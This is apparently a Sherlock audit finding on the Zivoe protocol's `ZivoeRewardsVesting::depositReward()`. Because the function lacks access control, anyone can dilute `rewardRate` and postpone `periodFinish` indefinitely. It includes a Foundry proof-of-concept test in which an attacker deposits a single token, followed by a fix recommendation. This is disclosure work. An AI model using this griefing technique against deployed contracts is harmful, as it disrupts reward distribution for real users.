 Large Ceramic Swan

medium

# Anyone can call `ZivoeRewardsVesting::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely

## Summary
Anyone can call `ZivoeRewardsVesting::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
## Vulnerability Detail
`ZivoeRewardsVesting::depositReward()` has no call limit, anyone can deposit 1 token, reduce `rewardRate` and extend `periodFinish` infinitely
```js
@>    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);


        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
@>            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }


        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
@>        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```


### Poc
```js
 // Anyone can call `ZivoeRewardsVesting::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
    function testAnyoneCallingZivoeRewardsVestingDepositRewardExtendsPeriodFinishIndefinitely() public {
        uint256 amount = 1e18;
        // zvl calls addReward() and depositReward()
        mint("WETH", address(zvl), amount);
        vm.startPrank(address(zvl));
        vestZVE.addReward(WETH,30 days);
        IERC20(WETH).approve(address(vestZVE),amount);
        vestZVE.depositReward(WETH,amount);    
        vm.stopPrank(); 
        (
            ,
            uint256 periodFinishBeforeAttack,
            uint256 rewardRateBeforeAttack,
            ,
        ) = vestZVE.rewardData(WETH);

        vm.warp(block.timestamp + 15 days);
        // attacker calls depositReward() deposits 1 WETH
        mint("WETH", address(attacker), 1);
        vm.startPrank(attacker);
        IERC20(WETH).approve(address(vestZVE),1);
        vestZVE.depositReward(WETH,1); 
        vm.stopPrank();
        (
            ,
            uint256 periodFinishAfterAttack,
            uint256 rewardRateAfterAttack,
            ,
        ) = vestZVE.rewardData(WETH);
        // rewardRate has been reduced
        assertGt(rewardRateBeforeAttack,rewardRateAfterAttack);
        // periodFinish has been postponed
        assertLt(periodFinishBeforeAttack,periodFinishAfterAttack);
        vm.warp(block.timestamp + 29 days);
        // The original plan was 30 days, but it has now lasted 44 days and can be postponed indefinitely.
        assertGt(periodFinishAfterAttack,block.timestamp);  
    }
    // [PASS] testAnyoneCallingZivoeRewardsVestingDepositRewardExtendsPeriodFinishIndefinitely() (gas: 224059)
```
## Impact
Anyone can call `ZivoeRewardsVesting::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352-L367
## Tool used

Manual Review

## Recommendation
It is recommended to add sender restrictions or amount limits
